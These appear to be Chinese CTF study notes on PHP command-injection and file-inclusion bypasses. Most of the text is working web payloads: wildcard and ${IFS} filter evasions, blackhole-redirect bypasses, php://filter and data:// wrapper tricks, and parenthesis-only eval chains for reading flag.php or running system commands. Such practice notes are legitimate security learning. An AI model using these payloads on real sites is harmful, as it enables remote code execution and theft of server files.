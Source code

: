 ## 笔记

<br><br>

* 在逆向(星号)((BYTE*)的时候用宏定义#define BYTE unsigned char即可正常使用

<br>

* system("tac flag.php")用来读取文件内容;

<br>

* ?c=system("tac%20fla(星号)")意思是c=system("tac flag");


````
3.5 通配符绕过

[…]表示匹配方括号之中的任意一个字符
{…}表示匹配大括号里面的所有模式，模式之间使用逗号分隔。
{…}与[…]有一个重要的区别，当匹配的文件不存在，[…]会失去模式的功能，变成一个单纯的字符串，而{…}依然可以展开

````

<br>

* --命令绕过

<br>

黑洞绕过：system($c." >/dev/null 2>&1");

* 双写分号绕过?c=tac f*;ls
* 双写&&绕过?c=tac f*%26%26ls（注：星号被绕过可以用问号）（[0-9]和%的过滤是不会过滤%26之类的）（）
* 带行号绕过?c=nl<fla''g.php%7C%7Cls(此方法可能要右键看源代码)
* 有$的情况下可以重命名flag.php成txt再直接访问:先执行?c=mv${IFS}fla?.php${IFS}a.txt%7C%7Cls 然后使用ls||ls看看有没有命名成功。成功后直接访问a.txt
* 其他注：?c=ls${IFS}/||ls查看根目录（ls /）
* 它只会让分号后面的指令进入黑洞，所以这里直接绕过






<br>

直接eval()传参时：
* 特殊字符:"$""&"如果只是对c进行过滤，就可以通过包含另一个函数来绕过
* 做题前先看看对谁过滤，再看如何过滤
* c=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
* c=include$_GET[1]?>&1=data://text/plain,<?php system("nl flag.php")?>
* c=$nice=include$_GET["url"]?>&url=php://filter/read=convert.base64-encode/resource=flag.php
* 仅括号
* c=echo highlight_file(next(array_reverse(scandir(pos(localeconv())))));
* c=eval(next(reset(get_defined_vars())));&1=;system("tac%20flag.php");
* c=show_source(next(array_reverse(scandir(pos(localeconv())))));
* c=highlight_file(next(array_reverse(scandir(dir))));
<br>

当include(c)时：直接使用协议绕过
* c=data://text/plain,<?php system('tac f*');?>

<br>

* php被过滤的时候:
* ?c=data://text/plain,<?=system("tac fla*")?>
* 注：include()只会处理<?php>里面的内容

<br>

* $被过滤的时候:
* ?c=echo highlight_file(next(array_reverse(scandir(pos(localeconv())))));
* ?c=eval(next(reset(get_defined_vars())));&1=;system("tac%20flag.php");

<br>


````
一般使用方法：

php://filter/ [read|write =]过滤器|过滤器/resource=要过滤的数据流 conversion filter(转换过滤器) convert.base64-encode & convert.base64-decode(base64加密解密) 例如：php://filter/convert.base64-encode/resource=flag.php

过滤器可以设置多个

php://filter读取源代码并进行base64编码输出，例如一些敏感信息会保存在php文件中，如果我们直接利用文件包含去打开一个PHP文件，PHP代码是不会显示到页面上的，例如：

他只显示了一条语句，这时我们可以以base64编码的方式读取指定文件的源码：

php://input协议

input协议可以访问请求的原始数据的制度刘，将post请求中的数据作为PHP代码执行。当传入的参数作为文件名打开时，可以将参数设为php://input，同时post想设置的文件内容，php执行时会将post内容作为文件内容，从而导致任意代码的执行。

利用该方法，我们可以直接写入php文件，输入file=php://input，然后用burp抓包，写入PHP代码：

data://text/plain协议

同样类似php://input，可以让用户来控制输入流，当它与包含函数结合时，用户输入的data://流会被当做php文件执行，从而导致任意代码执行。

利用data://伪协议可以直接达到执行php代码的效果，例如执行phpinfo();

格式：data://text/plain,流

例如：

data://text/plain,<?php phpinfo();?>
//如果此处对特殊字符进行了过滤，我们还可以通过base64编码后再输入：
data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

````





